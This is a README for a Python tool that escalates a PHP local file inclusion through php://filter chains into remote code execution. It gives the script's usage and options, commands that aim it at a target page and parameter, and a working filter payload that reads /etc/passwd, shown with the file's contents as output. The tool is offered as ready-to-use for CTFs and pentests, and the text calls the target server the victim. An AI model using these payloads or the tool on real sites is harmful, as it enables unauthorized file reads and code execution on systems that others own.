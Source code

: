# LFI to RCE : filters
Found an LFI with PHP filters ? Use this script for RCE !

## Basic usage
```
python3 lfi-to-rce.py http://example.com/vuln_page.php file
```

## Detailled commands

```
usage: lfi-to-rce.py [-h] [-c CMD] [-f FILE] [-d] url parameter

Example : python3 lfi-to-rce.py https://example.com/vuln_page.php file

positional arguments:
  url                   full path to vulnerable page
  parameter             GET parameter vulnerable to LFI

optional arguments:
  -h, --help            show this help message and exit
  -c CMD, --cmd CMD     execute a single command then stop program
  -f FILE, --file FILE  remote file to use : this should point to a valid file on the victim's server. Default : /etc/passwd
  -d, --debug           troubleshooting
```

## Explanation
For this script to work, you have to find an exploitable website with an LFI working with PHP filters.

For example, let's say that http://example.com is vulnerable to LFI on the `vuln_page.php` page with the `file` parameter and PHP filters :

```
GET http://example.com/vuln_page.php?file=php://filter/convert.base64-encode|convert.base64-decode/resource=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

Then, you can use this script to gain an easy RCE (no need to check for logging files or other bullsh*t :p) :

`python3 lfi-to-rce.py http://example.com/vuln_page.php file`

For this you'll only need a known file on the system which is readable by the user the server is running as. By default, it uses /etc/passwd but if this file is not accessible, you have to change it with the `-f` or `--file` argument. This will be the case if the server is running on Windows for example !

A smart choice could be using the vulnerable PHP file on the server ! For example :

`python3 lfi-to-rce.py http://example.com/vuln_page.php file --file "./vuln_page.php"`

For more technical details, check the links in Credits !

## Credits
Disclaimer : I did NOT found this exploit, I only used it to build a ready-to-use script useful for CTF or pentests. Full credit for the exploit goes to loknop.

Exploit and most of the code : https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d \
Improvements : https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters
